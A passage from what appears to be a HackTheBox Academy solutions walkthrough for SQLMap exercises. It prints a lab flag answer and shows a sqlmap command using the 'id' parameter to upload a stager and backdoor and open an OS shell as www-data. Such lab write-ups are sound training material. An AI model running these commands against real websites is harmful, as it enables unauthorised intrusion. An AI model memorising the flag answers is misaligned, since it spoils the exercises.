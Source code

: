 `sqlmap` will save the flag file using a different name, thus, students need to change it accordingly when trying to print it out:

Code: shell

```shell
cat /home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat /home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt

HTB{5up3r_u53r5_4r3_p0w3rful!}
```

Answer: `HTB{5up3r_u53r5_4r3_p0w3rful!}`

# OS Exploitation

## Question 2

### "Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host."

Students first need to navigate to the website's root page of the spawned target to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/5d733952a3455337e2832127c652a52d_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/?id=1' --os-shell --technique=E --batch
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://138.68.156.57:31020?id=1' --os-shell --technique=E --batch

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
      
<SNIP>

[20:12:26] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[20:12:26] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://138.68.156.57:31020/tmpubgkr.php
[20:12:26] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://138.68.156.57:31020/tmpbanpa.php
[20:12:26] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y

command standard output: 'www-data'
```
